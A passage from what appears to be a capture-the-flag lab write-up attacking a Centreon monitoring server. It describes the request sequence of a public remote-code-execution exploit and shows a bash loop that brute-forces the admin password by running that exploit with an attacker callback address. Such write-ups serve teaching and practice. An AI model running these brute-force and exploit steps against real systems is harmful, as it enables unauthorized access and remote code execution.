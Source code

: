 

This is because the token isn't right. That rules out something like
`hydra`.

#### Exploit Script

Looking at the script, it uses `requests` to issue five HTTP requests:

-   A GET to `/index.php` to add the php session cookie to the session
    and find the token.
-   A POST to `/index.php` to login. If the login fails, it prints a
    message and exits.
-   A GET to `/main.get.php?p=60901` to get a "Poller token".
-   A POST to `/main.get.php?p=60901` that includes the payload.
-   A GET to
    `/include/configuration/configGenerate/xml/generateFiles.php` to
    trigger the payload.

I considered writing my own script to brute force the credentials, but
this script already does what I want. I did add `features="lxml"` to
each of the `BeautifulSoup` calls, otherwise there's a lout error on
running.

I'll run a `bash` for loop over a list of passwords. For each password,
I'll run the exploit script, and pipe the output into `grep`. I see in
the script that the first thing it does after a successful login is
`print("[+] Logged In Sucssfully")`. So I'll `grep` for that and then
add `&& echo $pass && break`. That means that if the `grep` is
successful, it will echo the password that worked, and then end the
loop.

All of that runs and gets the password in about four minutes using the
`twitter-banned.txt` password list:



    root@kali# time for pass in $(cat /usr/share/wordlists/seclists/Passwords/twitter-banned.txt); do ./centreon-exploit.py http://10.10.10.157/centreon admin $pass 10.10.14.30 443 | grep "Logged In" && echo $pass && break; done
    [+] Logged In Sucssfully
    password1

    real    3m49.380s
    user    2m22.758s
    sys     0m14.211s



#### API

An even better way to do this brute force is to use the [Centreon
API](https://documentation.centreon.com/docs/centreon/en/latest/api/api_rest/index.md#authentication).
Based on that documentation, I can attempt authentication using the
following `curl`:

